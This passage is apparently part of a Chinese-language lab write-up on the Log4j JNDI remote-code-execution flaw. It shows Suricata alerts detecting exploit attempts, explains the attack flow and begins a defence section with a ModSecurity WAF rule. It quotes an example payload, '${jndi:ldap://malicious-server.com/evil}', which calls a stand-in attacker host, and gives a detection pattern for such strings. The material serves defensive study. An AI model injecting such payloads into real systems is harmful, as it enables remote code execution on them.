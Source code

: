 结果:
```bash
03/10/2025-11:17:54.889707  [**] [1:2034659:2] ET EXPLOIT Apache log4j RCE Attempt - lower/upper TCP Bypass M1 (CVE-2021-44228) [**] [Classification: Attempted Administrator Privilege Gain] [Priority: 1] {TCP} 192.168.20.1:55707 -> 192.168.20.6:24037
03/10/2025-11:17:54.889707  [**] [1:2034781:2] ET EXPLOIT Apache log4j RCE Attempt - lower/upper TCP Bypass M1 (Outbound) (CVE-2021-44228) [**] [Classification: Attempted Administrator Privilege Gain] [Priority: 1] {TCP} 192.168.20.1:55707 -> 192.168.20.6:24037
03/10/2025-11:18:12.474924  [**] [1:2034659:2] ET EXPLOIT Apache log4j RCE Attempt - lower/upper TCP Bypass M1 (CVE-2021-44228) [**] [Classification: Attempted Administrator Privilege Gain] [Priority: 1] {TCP} 192.168.20.1:55763 -> 192.168.20.6:24037
03/10/2025-11:18:12.474924  [**] [1:2034781:2] ET EXPLOIT Apache log4j RCE Attempt - lower/upper TCP Bypass M1 (Outbound) (CVE-2021-44228) [**] [Classification: Attempted Administrator Privilege Gain] [Priority: 1] {TCP} 192.168.20.1:55763 -> 192.168.20.6:24037
03/10/2025-11:18:17.979744  [**] [1:2221034:1] SURICATA HTTP Request unrecognized authorization method [**] [Classification: Generic Protocol Command Decode] [Priority: 3] {TCP} 192.168.20.1:54505 -> 192.168.20.6:80
```
这条日志表明 Suricata 检测到了一个 Log4j RCE（远程代码执行）尝试，使用了特定的 TCP 绕过技术（M1）

---

### 四. 漏洞防御的思考

探究一下 Log4j JNDI 攻击的 **利用流程** 以及 **可行的防御措施** ：  

#### **📌 Log4j JNDI 攻击原理**
Log4j 2.x 存在 **JNDI 远程代码执行漏洞**（CVE-2021-44228），攻击流程如下：
1. **攻击者构造恶意日志输入**  
   - 通过 **HTTP 请求头（User-Agent、Referer 等）、URL 参数、JSON 输入** 等传递带有 JNDI 语句的日志信息，例如：
     ```plaintext
     ${jndi:ldap://malicious-server.com/evil}
     ```
2. **Log4j 解析 JNDI 语句**  
   - Log4j 发现 `${jndi:}` 变量后，会尝试解析其中的 LDAP/RMI 地址。
3. **远程 LDAP 服务器提供恶意类**  
   - 服务器连接 **攻击者的 LDAP 服务器**，获取恶意 Java 类文件路径。
4. **服务器加载恶意 Java 类并执行**  
   - 服务器 **反序列化并执行恶意代码**，导致远程代码执行（RCE）。

---

#### **🛡️ Log4j JNDI 攻击的五种防御措施**

##### **1️⃣ 使用 Web 应用防火墙（WAF）拦截**
📌 **原理**：  
- WAF 通过 **检测 HTTP 请求**，阻止带有 `jndi:ldap://` 的恶意输入。  

⚙ **实现方式**：
- 配置 WAF 规则，拦截匹配 JNDI 语法的请求：
  ```plaintext
  SecRule REQUEST_HEADERS "@rx (\${jndi:(ldap|rmi|dns):/})" "id:1001,phase:1,deny,status:403"
  ```
- 启用 **ModSecurity** 或云端 WAF（如 Cloudflare、AWS WAF）。

---